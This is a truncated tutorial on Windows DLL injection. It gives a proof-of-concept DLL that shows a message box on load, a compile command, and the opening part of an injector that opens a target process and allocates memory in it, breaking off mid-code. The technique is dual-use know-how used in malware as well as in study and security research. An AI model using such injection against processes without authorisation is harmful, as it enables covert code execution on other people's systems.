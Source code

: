 ## Step 1: Prepare the DLL payload:

```
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL, L"Injected!", L"Success", MB_OK);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
## Step 2: Compile the DLL:

- Save the above code in a file named `payload.cpp`.
- Open a terminal or command prompt.
- Navigate to the directory containing `payload.cpp`.
- Compile the code into a DLL:

```
g++ -shared -o payload.dll payload.cpp
```

## Step 3: Replace the content of the main CPP file for DLL injection:

```
#include <windows.h>
#include <iostream>
#include <string>

int main(int argc, char* argv[])
{
    if (argc != 3)
    {
        std::cerr << "Usage: " << argv[0] << " <target_process_id> <path_to_dll>" << std::endl;
        return 1;
    }

    DWORD processId = std::stoul(argv[1]);
    const char* dllPath = argv[2];

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (hProcess == NULL)
    {
        std::cerr << "Failed to open target process." << std::endl;
        return 1;
    }

    LPVOID allocMem = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (allocMem == NULL)
    {
        std::cerr << "Failed to allocate memory in target process." << std::endl;
        CloseHandle(hProcess);
```